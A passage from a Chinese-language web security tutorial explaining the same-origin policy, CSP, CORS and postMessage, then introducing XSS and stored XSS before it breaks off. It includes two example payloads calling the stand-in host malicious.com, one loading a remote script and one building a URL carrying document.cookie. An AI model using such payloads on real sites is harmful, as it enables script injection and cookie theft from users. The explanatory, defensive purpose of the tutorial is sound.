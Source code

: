 ### 安全性与灵活性之间的权衡

让不同的源之间绝对隔离，无疑是最安全的措施，但这也会使得 Web 项目难以开发和使用。因此我们需要做出权衡，出让一些安全性来满足灵活性。浏览器主要出让了同源策略的以下两项安全性，而这又带来了很多安全问题，最典型的是 XSS 攻击和 CSRF 攻击。

#### 页面可以嵌入第三方资源

同源策略要让一个页面的所有资源都来自于同一个源，也就是要将该页面的所有 HTML 文件、JavaScript 文件、CSS 文件、图片等资源都部署在同一台服务器上，这无疑带来了诸多限制。比如将不同的资源部署到不同的 CDN 上时，CDN 上的资源就部署在另外一个域名上，因此我们就需要同源策略对页面的引用资源开一个“口子”，让其任意引用外部文件。所以最初的浏览器都是支持外部引用资源文件的，不过这也带来了很多问题。

遇到最多的一个问题是浏览器的首页内容会被一些恶意程序劫持，劫持的途径很多，其中最常见的是恶意程序通过各种途径往 HTML 文件中插入恶意脚本。当这段 HTML 文件的数据被送达浏览器时，浏览器是无法区分被插入的文件是恶意的还是正常的。当页面启动时，它可以修改用户的搜索结果、改变一些内容的连接指向，等等。

```html
<script src="http://malicious.com/malicious.js"></script>
```

除此之外，它还能将页面的的敏感数据，如 Cookie、IndexDB、LoacalStorage 等数据通过 XSS 的手段发送给服务器。

```html
<span onclick="alert(`http://malicious.com?cookie=${document.cookie}`)">美腿丝袜</span>
```

以上就是一个非常典型的 XSS 攻击。为了解决 XSS 攻击，浏览器中引入了内容安全策略(CSP)。*CSP 的核心思想是让服务器决定浏览器能够加载哪些资源，让服务器决定浏览器是否能够执行内联 JavaScript 代码*。通过这些手段就可以大大减少 XSS 攻击。


#### 跨域资源共享和跨文档消息机制

默认情况下，同源策略会阻止跨域资源请求，这样会大大制约我们的生产力。为了解决这个问题，我们引入了跨域资源共享(CORS)，使用该机制可以进行跨域访问控制，从而使跨域数据传输得以安全进行。

不同源的页面之间无法相互操纵 DOM。不过在实际应用中，经常需要两个不同源的 DOM 之间进行通信，于是浏览器又引入了跨文档消息机制，可以通过 `window.postMessage` 的 JavaScript 接口来和不同源的 DOM 进行通信。


## XSS

支持页面中的第三方资源引用和 CORS 带来了很多安全问题，其中最典型的就是 XSS 攻击。

### 什么是 XSS 攻击

XSS 全称是 Cross Site Scripting，为了与 CSS 区分开来，故简称 XSS，翻译过来就是“跨站脚本”。

XSS 攻击是指黑客往 HTML 文件中或者 DOM 中注入恶意脚本，从而在用户浏览页面时利用注入的恶意脚本对用户实施攻击的一种手段。最开始的时候，这种攻击是通过跨域来实现的，所以叫“跨域脚本”。但是发展到现在，往 HTML 文件中注入恶意代码的方式越来越多了，所以是否跨域注入脚本已经不是唯一的注入手段了，但是 XSS 这个名字却一直保留至今。

当页面被注入了恶意 JavaScript 脚本时，浏览器无法区分这些脚本是被恶意注入的还是正常的页面内容，所以 *恶意注入 JavaScript 脚本也拥有所有的脚本权限*。

### 攻击手段

页面中被注入恶意的 JavaScript 脚本是一件非常危险的事情，所以网站开发者会尽可能地避免页面中被注入恶意脚本。要想避免站点被注入恶意脚本，就要知道有哪些常见的注入方式。

#### 存储型 XSS 攻击

存储型 XSS 攻击大致需要经过如下步骤：
* 首先黑客利用站点漏洞将一段恶意 JavaScript 代码提交到网站的数据库中
* 然后用户向网站请求包含了恶意 JavaScript 脚本的页面
* 当用户浏览该页面的时候，恶意脚本就会将用户的 Cookie 信息等数据上传到服务器
